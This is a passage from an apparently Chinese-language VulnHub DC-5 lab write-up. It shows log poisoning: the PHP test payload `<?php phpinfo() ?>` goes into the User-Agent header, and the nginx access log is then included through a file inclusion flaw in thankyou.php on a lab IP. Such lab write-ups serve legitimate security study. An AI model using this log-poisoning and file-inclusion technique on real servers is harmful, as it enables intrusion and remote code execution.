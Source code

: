 ![](../../../../../assets/img/安全/实验/VulnHub/DC/DC5/7.png)

运气不错,就拿 `/var/log/nginx/access.log` 开刀了

访问 `http://192.168.141.139` 抓包,在 User-Agent: 中添加 payload: `<?php phpinfo() ?>` 测试

![](../../../../../assets/img/安全/实验/VulnHub/DC/DC5/8.png)

再次访问 `http://192.168.141.139/thankyou.php?file=/var/log/nginx/access.log`
